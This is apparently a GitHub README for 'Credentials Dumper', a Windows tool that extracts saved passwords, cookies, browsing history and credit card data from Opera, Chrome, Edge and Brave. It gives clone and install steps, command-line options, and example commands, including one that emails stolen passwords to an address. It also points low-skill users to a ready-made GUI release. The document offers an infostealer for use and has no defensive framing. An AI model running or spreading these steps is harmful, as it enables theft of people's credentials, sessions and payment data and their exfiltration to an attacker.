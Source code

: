 # Credentials Dumper
A Tool That Display Browsers Credentials on your terminal
## Supported Os:
* Windows Only
## Supported Browsers:
| Supported browsers  | Passwords  | Cookies  | History  |  Credit Cards |
| ------------- | ------------- | ------------- | ------------- | ------------- |
| Opera |  ✅ | ✅  | ✅ | ✅
| Chrome |  ✅ | ✅  | ✅ | ✅
| Microsoft Edge |  ✅ | ✅  | ✅ | ✅
| Brave |  ✅ | ✅  | ✅ | ✅
## Usage Terminal:
```
git clone https://github.com/SHBBL/Credentials-Dumper.git
pip3 install -r requirements.txt
cd Credentials-Dumper && cd windows
python Credentials_Dumper.py -h
```
### Options:
```
  -h, --help            show this help message and exit
  -browser , --browser  Browser Name: chrome/msedge/brave/opera
  -get , --get          Get:passwords/cookies/history/creditcards
  -send , --send        Select: passwords/cookies/history/creditcards
  -to , --to            Send: passwords/cookies/history/creditcards to email
```
### Example:
### Dump it on screen:
``
python Credentials_Dumper.py -browser msedge -get passwords
``
#### Output:
![alt text](https://github.com/SHBBL/Credentials-Dumper/blob/main/blob/img.jpg?raw=true)

### Send to email:
``
python Credentials_Dumper.py -browser msedge -send passwords -to example@example.com 
``
#### Output:
Check Your spam or inbox
### Usage GUI:
For SKids go to [RELEASES](https://github.com/SHBBL/Credentials-Dumper/releases/tag/v1.0)
